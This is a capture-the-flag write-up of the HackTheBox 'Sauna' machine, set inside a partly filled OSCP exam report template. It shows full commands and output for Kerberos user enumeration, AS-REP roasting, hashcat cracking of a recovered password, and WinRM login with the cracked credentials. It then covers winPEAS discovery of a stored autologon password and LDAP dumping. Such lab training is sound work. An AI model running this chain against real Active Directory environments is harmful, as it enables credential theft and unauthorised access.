

# Report - Sauna 

## Introduction

The Offensive Security Exam penetration test report contains all efforts that were conducted in order to pass the Offensive Security course.
This report should contain all items that were used to pass the overall exam.
This report will be graded from a standpoint of correctness and fullness to all aspects of the  exam.
The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the Offensive Security Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The student is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.
An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course.
Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report and include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable.
- Any additional items that were not included

# Sample Report - High-Level Summary

John Doe was tasked with performing an internal penetration test towards Offensive Security Labs.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Offensive Security's internal lab systems - the **THINC.local** domain.
John's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Offensive Security.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Offensive Security's network.
When performing the attacks, John was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations.
During the testing, John had administrative level access to multiple systems.
All systems were successfully exploited and access granted.
These systems as well as a brief description on how access was obtained are listed below:

- Exam Trophy 1 - Got in through X
- Exam Trophy 2 - Got in through X

## Sample Report - Recommendations

John recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Sample Report - Methodologies

John utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Labs and Exam environments are secure.
Below is a breakout of how John was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Sample Report - Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, John was tasked with exploiting the exam network.
The specific IP addresses were:

**Exam Network**

Host: 10.10.10.175 

## Sample Report - Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

# Nmap scan host

The scan shows us a Windows domain controller with a webserver, dns server. One thing to note is that there is a time skew on this server, this is important when trying to login.

```
user@kali:~/hackthebox/hackthebox/sauna$ cat nmap/sauna-fulltcp.nmap 
# Nmap 7.91 scan initiated Fri Jan 15 20:37:00 2021 as: nmap -sC -sV -p- -oA nmap/sauna-fulltcp 10.10.10.175
Nmap scan report for egotistical-bank.htb (10.10.10.175)
Host is up (0.042s latency).
Not shown: 65515 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-01-16 02:46:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  msrpc         Microsoft Windows RPC
60556/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h05m37s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-01-16T02:46:55
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 15 20:41:53 2021 -- 1 IP address (1 host up) scanned in 293.64 seconds
```

Looking at the DNS server tcp/53 open, checking with zone transferts yielded nothing (refused):

```
user@kali:~/hackthebox/hackthebox/sauna$ dig axfr @10.10.10.175 EGOTISTICAL-BANK.LOCAL

; <<>> DiG 9.16.8-Debian <<>> axfr @10.10.10.175 EGOTISTICAL-BANK.LOCAL
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

We see the main website has several pages all with static content:


With Gobuster we find the following web directories:

```
/index.html (Status: 200)
/images (Status: 301)
/contact.html (Status: 200)
/blog.html (Status: 200)
/about.html (Status: 200)
/Images (Status: 301)
/css (Status: 301)
/Contact.html (Status: 200)
/About.html (Status: 200)
/Index.html (Status: 200)
/Blog.html (Status: 200)
/fonts (Status: 301)
/IMAGES (Status: 301)
/INDEX.html (Status: 200)
/Fonts (Status: 301)
/single.html (Status: 200)
/CSS (Status: 301)
/CONTACT.html (Status: 200)
/ABOUT.html (Status: 200)
```

There is a webpage with names:

```
http://10.10.10.175/about.html
```


This gives us a list of names and subsequently a list of usernames we can generate to check for:

```
user@kali:~/hackthebox/hackthebox/sauna$ cat users
Fergus Smith
Shaun Coins
Bowie Taylor
Sophie Driver
Hugo Bear
Steven Kerb
```

```
user@kali:~/hackthebox/hackthebox/sauna$ cat usernames
$ cat usernames
Administrator
Guests
Fergus.Smith
FSmith
FergusS
FergusSmith
Shaun.Coins
SCoins
ShaunC
ShaunCoins
Bowie.Taylor
BowieT
BTaylor
BowieTaylor
Sophie.Driver
SDriver
SophieD
SophieDriver
Hugo.Bear
HBear
HugoB
HugoBear
Steven.Kerb
StevenK
SKerb
StevenKerb
```

Using the Kerbrute tool we can find valid users using the Kerberos service that is exposed on port 88:
```
ser@kali:~/hackthebox/hackthebox/sauna$ kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 -o kerbrute/kerbrute-userenum.log usernames 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (1ad284a) - 01/15/21 - Ronnie Flathers @ropnop

2021/01/15 21:05:01 >  Using KDC(s):
2021/01/15 21:05:01 >   10.10.10.175:88

2021/01/15 21:05:01 >  [+] VALID USERNAME:       Administrator@EGOTISTICAL-BANK.LOCAL
2021/01/15 21:05:01 >  [+] VALID USERNAME:       FSmith@EGOTISTICAL-BANK.LOCAL
2021/01/15 21:05:01 >  Done! Tested 26 usernames (2 valid) in 0.182 seconds
```

With impacket's tool GetNPUsers.py we can do a AS REPROAST on the user and get a TGT:

```
user@kali:~/hackthebox/hackthebox/sauna$ /home/user/Downloads/impacket/build/scripts-2.7/GetNPUsers.py -format hashcat -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/FSmith
/usr/local/lib/python2.7/dist-packages/cryptography/__init__.py:39: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
  CryptographyDeprecationWarning,
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Cannot authenticate FSmith, getting its TGT
$krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL:319b5f62666df4e8f27e73fbbfee9565$98ebfdb6674b47c90f531201c866616341a2ba3ac73e97bf2564459134f1eea8290ff66eb5f0941855c9107e746fa52fc5c4c9429f586187ef2bff5c18f4351b32162b1857b73bd2fcaefe2205bf4ad40108c9f3bfc0e06d8ee8bcb33982eb2c35029483edc9acc7b993135874a2bb4e1237ca79496516ba0ff4e6d8529fd7be1904655563a11774686c0ab0a861c099b66c4a0066cfd5517a5b455576f67cc7a685408e57f49588fd062e5d54a64c8aba2f1f44a119397328c61a7360eef5d84850e619b3faa1f1a1f0bbb1cfdd691f7ecb76f5f2c0fb3e869d8072162c7e21fad046fb7e753425ab7e809b951c5a784c66245d5ecab4684ed4471ac55ebe86
```

After getting this hash we can try to crack it using hashcat:

```
user@kali:~/hackthebox/hackthebox/sauna$ hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8700 CPU @ 3.20GHz, 2889/2953 MB (1024 MB allocatable), 1MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 81 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL:319b5f62666df4e8f27e73fbbfee9565$98ebfdb6674b47c90f531201c866616341a2ba3ac73e97bf2564459134f1eea8290ff66eb5f0941855c9107e746fa52fc5c4c9429f586187ef2bff5c18f4351b32162b1857b73bd2fcaefe2205bf4ad40108c9f3bfc0e06d8ee8bcb33982eb2c35029483edc9acc7b993135874a2bb4e1237ca79496516ba0ff4e6d8529fd7be1904655563a11774686c0ab0a861c099b66c4a0066cfd5517a5b455576f67cc7a685408e57f49588fd062e5d54a64c8aba2f1f44a119397328c61a7360eef5d84850e619b3faa1f1a1f0bbb1cfdd691f7ecb76f5f2c0fb3e869d8072162c7e21fad046fb7e753425ab7e809b951c5a784c66245d5ecab4684ed4471ac55ebe86:Thestrokes23
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL:319b5f6...5ebe86
Time.Started.....: Fri Jan 15 22:09:45 2021 (22 secs)
Time.Estimated...: Fri Jan 15 22:10:07 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   475.0 kH/s (6.68ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10539008/14344385 (73.47%)
Rejected.........: 0/10539008 (0.00%)
Restore.Point....: 10534912/14344385 (73.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Tioncurtis23 -> Thelittlemermaid

Started: Fri Jan 15 22:09:44 2021
Stopped: Fri Jan 15 22:10:09 2021
```

We find the password of FSmith is 'Thestrokes23'.

Now we can check if we can login with smb or winrm utilising crackmapexec using these credentials:

```
user@kali:~/hackthebox/hackthebox/sauna$ crackmapexec smb -u FSmith -p Thestrokes23 -d EGOTISTICAL-BANK.LOCAL 10.10.10.175
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\FSmith:Thestrokes23 
user@kali:~/hackthebox/hackthebox/sauna$ crackmapexec winrm -u FSmith -p Thestrokes23 -d EGOTISTICAL-BANK.LOCAL 10.10.10.175
WINRM       10.10.10.175    5985   10.10.10.175     [*] http://10.10.10.175:5985/wsman
WINRM       10.10.10.175    5985   10.10.10.175     [+] EGOTISTICAL-BANK.LOCAL\FSmith:Thestrokes23 (Pwn3d!)
user@kali:~/hackthebox/hackthebox/sauna$ 
```

Looks we have full access to the box using winrm!

Using evil-winrm we can login into the box and get the user flag:

```
user@kali:~/hackthebox/hackthebox/sauna$ evil-winrm -i 10.10.10.175 -u FSmith -p Thestrokes23 

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents>
```



We upload a winPEAS.bat script and execute it:

```
*Evil-WinRM* PS C:\Users\FSmith\Downloads> upload winPEAS.bat
Info: Uploading winPEAS.bat to C:\Users\FSmith\Downloads\winPEAS.bat

Data: 43968 bytes of 43968 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\FSmith\Downloads> dir


    Directory: C:\Users\FSmith\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/15/2021  10:22 PM          32976 winPEAS.bat


*Evil-WinRM* PS C:\Users\FSmith\Downloads> ./winPEAS.bat
```

The output of the command is located in the file winpeas.out in the github tree.
One notable credential we find in the output is:

```
Looking inside HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\WinLogon
    DefaultDomainName    REG_SZ    EGOTISTICALBANK
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!
```

```
*Evil-WinRM* PS C:\Users\FSmith\Downloads> upload PowerView.ps1
Info: Uploading PowerView.ps1 to C:\Users\FSmith\Downloads\PowerView.ps1


Data: 597580 bytes of 597580 bytes copied

Info: Upload successful!
```

```
user@kali:~/hackthebox/hackthebox/sauna$ evil-winrm -i 10.10.10.175 -u FSmith -p Thestrokes23 -s '/usr/share/windows-resources/powersploit/Recon/' -e '/usr/share/windows-resources/powersploit/Recon/'                                                                                      [25/1324]
                                                                         
Evil-WinRM shell v2.3
                                                                         
Info: Establishing connection to remote endpoint
                                                                         
*Evil-WinRM* PS C:\Users\FSmith\Documents> PowerView.ps1
*Evil-WinRM* PS C:\Users\FSmith\Documents> menu

   ,.   (   .      )               "            ,.   (   .      )       .
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/
              By: CyberVaca, OscarAkaElvis, Laox @Hackplayers  
                      
[+] Add-NetGroupUser   
[+] Add-NetUser 
[+] Add-ObjectAcl 
[+] Add-Win32Type    
[+] Bypass-4MSI 
[+] Convert-CanonicaltoNT4
[+] ConvertFrom-UACValue
[+] Convert-LDAPProperty 
[+] Convert-NameToSid 
[+] Convert-NT4toCanonical 
[+] Convert-SidToName 
[+] Copy-ClonedFile 
[+] Dll-Loader 
[+] Donut-Loader 
[+] Export-PowerViewCSV 
[+] field 
[+] Find-ComputerField 
[+] Find-ForeignGroup 
[+] Find-ForeignUser 
[+] Find-GPOComputerAdmin 
[+] Find-GPOLocation 
[+] Find-InterestingFile 
[+] Find-LocalAdminAccess 
[+] Find-UserField 
[+] func 
[+] Get-ADObject 
[+] Get-CachedRDPConnection 
[+] Get-ComputerProperty 
[+] Get-DFSshare 
[+] Get-DomainPolicy 
[+] Get-DomainSearcher 
[+] Get-DomainSID 
[+] Get-ExploitableSystem 
[+] Get-GptTmpl 
[+] Get-GroupsXML 
[+] Get-GUIDMap 
[+] Get-IPAddress 
[+] Get-LastLoggedOn 
[+] Get-NameField 
[+] Get-NetComputer 
[+] Get-NetDomain 
[+] Get-NetDomainController 
[+] Get-NetDomainTrust 
[+] Get-NetFileServer 
[+] Get-NetForest 
[+] Get-NetForestCatalog 
[+] Get-NetForestDomain 
[+] Get-NetForestTrust 
[+] Get-NetGPO 
[+] Get-NetGPOGroup 
[+] Get-NetGroup 
[+] Get-NetGroupMember 
[+] Get-NetLocalGroup 
[+] Get-NetLoggedon 
[+] Get-NetOU 
[+] Get-NetProcess 
[+] Get-NetRDPSession 
[+] Get-NetSession 
[+] Get-NetShare 
[+] Get-NetSite 
[+] Get-NetSubnet
[+] Get-NetUser 
[+] Get-ObjectAcl 
[+] Get-PathAcl 
[+] Get-Proxy 
[+] Get-UserEvent 
[+] Get-UserProperty 
[+] Invoke-ACLScanner 
[+] Invoke-Binary 
[+] Invoke-CheckLocalAdminAccess 
[+] Invoke-DowngradeAccount 
[+] Invoke-EnumerateLocalAdmin 
[+] Invoke-EventHunter 
[+] Invoke-FileFinder 
[+] Invoke-MapDomainTrust 
[+] Invoke-ProcessHunter 
[+] Invoke-ShareFinder 
[+] Invoke-StealthUserHunter 
[+] Invoke-ThreadedFunction 
[+] Invoke-UserHunter 
[+] New-InMemoryModule 
[+] psenum 
[+] Set-ADObject 
[+] Set-MacAttribute 
[+] struct

*Evil-WinRM* PS C:\Users\FSmith\Documents>
```

I dumped the ldap directory using ldapdomaindump:

```
user@kali:~/hackthebox/hackthebox/sauna/ldap$ ldapdomaindump -u 'EGOTISTICAL-BANK\FSmith' -p 'Thestrokes23' 10.10.10.175 
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

## Sample Report - Penetration

**Vulnerability Fix:**

**Severity:** Critical

**Proof of Concept Code Here:**

\newpage

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## Sample Report - House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on the exam network were completed, John removed all user accounts and passwords as well as the meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.
